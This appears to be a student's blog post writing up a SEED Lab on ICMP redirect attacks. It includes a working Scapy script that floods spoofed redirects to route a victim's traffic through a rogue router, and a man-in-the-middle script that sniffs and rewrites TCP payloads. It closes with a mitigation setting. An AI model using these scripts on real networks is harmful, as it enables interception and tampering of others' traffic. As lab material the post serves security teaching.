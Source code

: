 ```yaml
---
layout: post
title: ICMP Redirect Attack
categories: [icmp, scapy]
---
```


An ICMP redirect is an error message sent by a router to the sender of an IP packet. The purpose of this error message is to inform the sender of the IP packet that there is a better route it can use to reach its destination. While this is a neat feature, attackers can take advantage of this feature to redirect a machine's network traffic to a rouge router and sniff such traffic.

Redirects are used when a router believes a packet is being routed incorrectly, and it would like to inform the sender that it should use a different router for the subsequent packets sent to that same destination. ICMP redirect can be used by attackers to change a victim’s routing table.

```
malicious router 10.9.0.111
attacker 10.9.0.105
victim 10.9.0.5
host-A 192.168.60.5
host-B 192.168.60.6
router 10.9.0.11, 192.168.60.11
```

In this post, I aim to document my findings and observations while performing a SEED Lab.

<br>

### Launching ICMP Redirect Attack
An ICMP redirect attack unlike the ARP cache poisoning directly attacks the routing table of the victim's machine. Though this attack does not change the routing table of the victim's machine, by informing the machine of a better route, the victim's machine creates a timed cache of the "supposed" better route.
This can be done through the code:

```python
#!/usr/bin/python3
import sys, os, time
from scapy.all import *

def main():
    # ensure correct usage
    if len(sys.argv) != 5:
        usage()
        sys.exit(2)
    
    # unpack
    router = sys.argv[1]
    victim = sys.argv[2]
    rouge_r = sys.argv[3]
    destination = sys.argv[4]
    
    # create packets
    ip = IP(src = router, dst = victim)
    icmp = ICMP(type = 5, code = 1, gw = rouge_r)
    ip2 = IP(src = victim, dst = destination)
    
    # send the packet
    try:
        while True:
            send(ip / icmp / ip2 / ICMP());
            time.sleep(1.5)
    except KeyboardInterrupt:
        sys.exit("Keyboard escaped")
        #os.system('clear')

def usage():
    print('Usage: ./icmp_redirect.py <router> <victim> <rouge-r> <destination>\
    \n\trouter: IP address of the actual router\
    \n\tvictim: IP address of the victim\
    \n\trouge-r: IP address of the rouge router\
    \n\tdestination: IP address of the host outside victim network\n')


if __name__ == '__main__':
    main()
```

It is important to note that if an entry exists in the routing cache, it trumps a similar entry in the actual routing table.

**Before running the ICMP redirect attack**

![1 1-route-before-redirect](https://github.com/iukadike/iukadike.github.io/assets/58455326/c1240143-9efb-4cd4-b46d-4cf6f9e64270)

![1 1-mtr-before-redirect](https://github.com/iukadike/iukadike.github.io/assets/58455326/43e5c114-5926-409e-8518-a089a7b18b01)

**After running the ICMP redirect attack**

![1 2-route-after-redirect](https://github.com/iukadike/iukadike.github.io/assets/58455326/aedb2bd0-17cb-494c-bb94-475f66160d4f)

![1 2-mtr-after-redirect](https://github.com/iukadike/iukadike.github.io/assets/58455326/fa886763-80e6-4dfe-880b-12463038a4a8)

The packet first goes to the rouge router. Once the malicious router receives the packet, it forwards it to the router; and thus is the return trip. This is because the malicious router has an entry for the router in its routing table as seen below

![1 2-rouge-router-table](https://github.com/iukadike/iukadike.github.io/assets/58455326/bf20a9e5-92c5-418c-bf26-d2c0900f0d95)

![rouge-router-table](https://github.com/iukadike/iukadike.github.io/assets/58455326/8306d3ac-d458-4689-83a4-34f777d80338)

When a ping request is sent from the victim to `host-A`, two ping requests and one ping reply make up the traffic. This can be seen in Wireshark when monitoring the victim's network
- first ICMP request is from the victim to the malicious router
- second ICMP request is from the malicious router to the router
- only ICMP reply is from router to the victim

![1 4-wireshark-2](https://github.com/iukadike/iukadike.github.io/assets/58455326/763f8f46-9ebc-4511-aff1-f886590a6bc9)

<br>

### ICMP redirect attacks to redirect to a remote machine
When the gateway you want the victim to redirect traffic to is outside of the victim's network, the victim would ignore the gateway address but rather use the router address. When it does this, it adds the router to its routing cache; however, this entry is not a timed entry. This means the entry doesn't expire and can only be updated by a better route or flushed. This can be seen in the screenshots below

![1 3-route-remote](https://github.com/iukadike/iukadike.github.io/assets/58455326/485ae1cd-018d-470f-baa4-d014d5377768)

![1 3-mtr-remote](https://github.com/iukadike/iukadike.github.io/assets/58455326/ccf92b97-243a-4a28-8b83-951876f70e30)

<br>

### ICMP redirect attacks to redirect to a non-existing machine on the same network
When the gateway you want the victim to redirect traffic to is on the same network as the victim but either offline or non-existent, the victim would ignore the gateway address but rather use the router address. As with the remote host, When it does this, it adds the router to its routing cache; however, this entry is not a timed entry. This means the entry doesn't expire and can only be updated by a better route or flushed. This can be seen in the screenshots below

![1 3-route-remote](https://github.com/iukadike/iukadike.github.io/assets/58455326/485ae1cd-018d-470f-baa4-d014d5377768)

![1 3-mtr-remote](https://github.com/iukadike/iukadike.github.io/assets/58455326/ccf92b97-243a-4a28-8b83-951876f70e30)

<br>

##### side note
```
net.ipv4.conf.all.send_redirects
net.ipv4.conf.default.send_redirects
net.ipv4.conf.eth0.send_redirects
```

When these are set to 1, the malicious router forwards a message to the victim to indicate the next hop. In essence, what this does is that it informs the victim that there is a better route to get to `host-A`. The victim takes note of this and updates its routing cache accordingly.

![1 4-next-hop](https://github.com/iukadike/iukadike.github.io/assets/58455326/16991222-149c-425b-97de-9f210c4ed8d6)

However, when these are set to 0, the malicious router does not forward a message to the victim to indicate the next hop. This is the option we want.

![1 4-next-hop-2](https://github.com/iukadike/iukadike.github.io/assets/58455326/5d80c98a-17ba-45ea-9b1b-7b0d56827f6c)

<br>

### Launching the MITM Attack
You only need to capture traffic that comes to the rouge router. When the destination is sending traffic to the victim, it will do so via the real router. It is only when the traffic originates from the victim that it goes to the rouge router. This is true because the attacking machine uses the router to send the spoof traffic.

A simple MITM Attack can be launched using the below code

```python
#!/usr/bin/env python3
import re
from scapy.all import *

print("LAUNCHING MITM ATTACK.........")

def spoof_pkt(pkt):
    newpkt = IP(bytes(pkt[IP]))
    del(newpkt.chksum)
    del(newpkt[TCP].payload)
    del(newpkt[TCP].chksum)

    if pkt[TCP].payload:
        # Decode payload
        data = pkt[TCP].payload.load.decode().lower()

        # Replace the pattern
        newdata = re.sub('ifeanyi', 'AAAAAAA', data, 1)
        
        # Send the packet wit the new data
        print(f'sending {newdata}')
        send(newpkt/newdata, verbose = 0)
    else: 
        send(newpkt, verbose = 0)

f = '(tcp port 9090) && (not ether src 02:42:22:32:2c:98)'
sniff(iface='br-5b598e26fa5c', filter=f, prn=spoof_pkt)
```

This can be better understood by the screenshots below

**MITM program**

![1 5-mitm-code](https://github.com/iukadike/iukadike.github.io/assets/58455326/cf16ec2f-851e-447f-aac3-96a950702318)

**Server `host-A`**

![1 5-mitm-server](https://github.com/iukadike/iukadike.github.io/assets/58455326/a6c480b7-82d0-45b6-b67c-4455172478d7)

**Victim**

![1 5-mitm-victim](https://github.com/iukadike/iukadike.github.io/assets/58455326/256c0985-43e5-43d4-85a3-6aa8c7352139)

___
##### mitigation
By setting the following to 0, you can effectively prevent your machine from accepting `ICMP redirects`
```
net.ipv4.conf.all.accept_redirects
net.ipv4.conf.default.accept_redirects
net.ipv4.conf.eth0.accept_redirects
````

<br>

_Thanks for reading_